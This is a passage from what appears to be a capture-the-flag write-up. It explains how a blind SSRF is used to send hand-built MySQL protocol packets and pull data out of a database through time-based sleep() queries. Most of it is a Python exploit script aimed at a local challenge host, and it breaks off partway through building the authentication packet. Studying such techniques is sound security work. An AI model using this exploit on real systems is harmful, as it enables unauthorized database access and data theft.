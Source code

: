 Since the SSRF is blind, we're going to utilise the `sleep()` function, subqueries and conditional statements to exfiltrate the database contents.

```python
import requests, struct, re, ast
from HTMLParser import HTMLParser

host, port = 'localhost', 1337
HOST = 'http://%s:%d/' % (host, port)

execute = lambda packet: requests.post(HOST, {'url': packet}).elapsed.total_seconds() > 0.4

def exfiltrate(func, sub=0, int_size=8):
	for i in reversed(range(0, int_size)):
		sub *= 2
		sub += int(func(i, sub))
	return chr(sub)

def exfil_sleep(user, packet, debug=True, **kwargs):
	def inner(shift, sub):
		if debug is True:
			print packet.format(shift=shift, slp_time='.5', **kwargs)
		return execute(construct_query_packet(user, packet.format(shift=shift, slp_time='.5', **kwargs)))
	return exfiltrate(inner)

def construct_handshake_response(user):
	connects_atrs_data = b''

	connect_attrs = {
		'_os': 'Linux',
		'_client_name': 'libmysql',
		'_pid': '1337',
		'_client_version': '5.7.29',
		'_platform': '_x86_64',
		'program_name': 'mysql'
	}

	for name, value in connect_attrs.items():
		connects_atrs_data += struct.pack('B', len(name)) + name    # len(CLIENT_CONNECT_ATTRS_name) + CLIENT_CONNECT_ATTRS_name
		connects_atrs_data += struct.pack('B', len(value)) + value  # len(CLIENT_CONNECT_ATTRS_value) + CLIENT_CONNECT_ATTRS_value

	connect_attrs_data = struct.pack('B', len(connects_atrs_data)) + connects_atrs_data # len(CLIENT_CONNECT_ATTRS)	+ CLIENT_CONNECT_ATTRS

	auth_response_packet = [
		0xa3 + len(user) - 4, 0x00, 0x00,                           # payload_length           int<3>
		0x01,                                                       # sequence_id              int<1>
		0x85, 0xa6, 0x3f, 0x20,                                     # capability_flags         int<4> SELECT * FROM performance_schema.session_connect_attrs WHERE processlist_id = CONNECTION_ID();
		0x00, 0x00, 0x00, 0x01,                                     # max_packet_size          int<4> 2 ** 24 -1
		0x08,                                                       # character_set            int<1>
		] + list(xrange(23)) + [                                    # reserved                 string[23]
		] + list(bytearray(user)) + [                               # username                 string[NUL]
		0x00,                                                       # length of auth-response  int<1>
```